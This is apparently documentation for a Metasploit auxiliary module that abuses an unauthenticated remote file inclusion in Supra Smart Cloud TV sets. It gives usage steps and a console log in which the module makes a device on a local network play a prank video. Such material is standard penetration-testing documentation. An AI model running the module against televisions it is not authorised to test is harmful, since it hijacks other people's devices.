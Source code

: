 ## Summary

This module exploits an unauthenticated remote file inclusion which exists in Supra Smart Cloud TV. 
The media control for the device doesn't have any session management or authentication. Leveraging this, an
attacker on the local network can send a crafted request to broadcast a fake video.

**Reference:** https://www.inputzero.io/2019/06/hacking-smart-tv.html

## Verification Steps

1. `use auxiliary/admin/http/supra_smart_cloud_tv_rfi `
2. `set RHOSTS [IP]`
3. `set SRVHOST [IP]`
4. `run`

Doo-doodoodoodoodoo-doo, Epic Sax Guy will be broadcasted to the remote system.

## Scenarios

```
msf > use auxiliary/admin/http/supra_smart_cloud_tv_rfi 
msf auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set SRVHOST 192.168.1.132
SRVHOST => 192.168.1.132
msf auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set RHOSTS 192.168.1.155
RHOSTS => 192.168.1.155
msf auxiliary(admin/http/supra_smart_cloud_tv_rfi) > run
[*] Running module against 192.168.1.155
[*] Using URL: http://192.168.1.132:8080/
[*] Broadcasting Epic Sax Guy to 192.168.1.155:80
[+] Doo-doodoodoodoodoo-doo
[*] Sleeping for 10s serving .m3u8 and .ts files...
[*] Server stopped.
[*] Auxiliary module execution completed
msf auxiliary(admin/http/supra_smart_cloud_tv_rfi) >
```
